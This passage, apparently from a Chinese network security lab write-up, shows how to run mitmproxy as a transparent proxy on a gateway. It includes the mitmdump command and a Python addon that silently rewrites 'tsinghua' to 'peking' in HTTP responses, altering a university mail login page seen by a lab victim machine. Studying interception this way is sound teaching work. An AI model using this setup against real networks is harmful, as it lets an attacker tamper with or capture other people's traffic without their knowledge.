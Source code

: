 开启路由转发后，就可以让mitmproxy开始工作了，运行命令`mitmdump --mode transparent -p 8080 -s ./joker.py`。
参数说明：
1. --mode transparent 让mitmproxy运行透明代理模式，旧版本的选项为`-T`
2. -p 指点代理的端口，这里和之前路由转发的端口保持一致，默认也是运行在8080端口
3. -s 使用嵌入脚本。在嵌入脚本中定义事件的处理函数，mitmproxy会在对应的事件发生时调用处理。

这里使用的脚本如下：./codes/joker.py
```python
import mitmproxy.http
from mitmproxy import ctx
class Joker:
    def request(self, flow: mitmproxy.http.HTTPFlow):
        ctx.log.info('get request')
        return
    def response(self, flow: mitmproxy.http.HTTPFlow):
        text = flow.response.get_text()
        text = text.replace('tsinghua','peking')
        ctx.log.info('change response')
        flow.response.set_text(text)

addons = [
    Joker()
]
```
在这个脚本中定义了一个Joker类，并实现了request方法和response方法，这两个方法会在mitmproxy收到http请求和响应时调用，是最常用的两个事件处理方法。之后通过addons变量将定义的处理加入列表。更多的事件和响应的语法规则都可以在官方文档中获得。具体而言，这个脚本在收到http请求时会打印出‘get request’，在收到http响应时会打印出‘change response’，并把响应中所有的‘tsinghua’替换会‘peking’后再返回。

此时Ubuntu再次访问tsinghua的邮件门户网站，主机登录表单的账户域名，已经从‘tsinghua’被替换为‘peking’。说明已经成功地篡改了网关发送给Ubuntu的报文，而Ubuntu对这些都无法感知。
![success](https://github.com/DBullet/UCore/blob/master/lab5/boot/success.png)